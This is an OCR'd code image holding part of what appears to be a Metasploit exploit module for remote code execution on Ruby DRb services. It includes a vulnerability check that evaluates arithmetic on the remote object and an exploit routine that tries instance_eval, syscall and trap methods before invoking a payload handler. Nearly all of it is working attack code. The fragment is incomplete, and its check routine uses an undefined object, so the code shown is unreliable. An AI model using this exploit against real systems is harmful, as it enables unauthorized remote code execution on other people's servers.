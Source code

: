 ```ruby

  def rhost
    datastore['RHOST']
  end

  def check
    begin
      pid = p.send(:syscall, 20)
    rescue Errno::EBADF
      # 64 bit system
      pid = p.send(:syscall, 39)
    rescue SecurityError, DRb::DRbConnError, NoMethodError
      return CheckCode::Safe
    end
    vprint_status("Service detected, syscall responded from pid #{pid}")

    val1 = rand(0xffff)
    val2 = rand(0xffff)
    begin
      result = p.send(:instance_eval, "#{val1} + #{val2}")
    rescue SecurityError, DRb::DRbConnError, NoMethodError
    end

    return CheckCode::Vulnerable if result == val1 + val2

    CheckCode::Detected
  end

  def exploit
    serveruri = "druby://#{datastore['RHOST']}:#{datastore['RPORT']}"

    # DRb.start_service  # this is unnecessary
    p = DRbObject.new_with_uri(serveruri)
    class << p
      undef :send
    end

    if target[:method] == 'auto'
      methods = %w[instance_eval syscall trap]
    else
      methods = [target[:method]]
    end

    methods.each do |method|
      begin
        print_status("Trying to exploit #{method} method")
        send('method_' + method, p)
        handler(nil)
        break
      rescue SecurityError, DRb::DRbConnError, NoMethodError
        print_warning("Target is not vulnerable to #{method} method")
      end
    end

  end
end
```
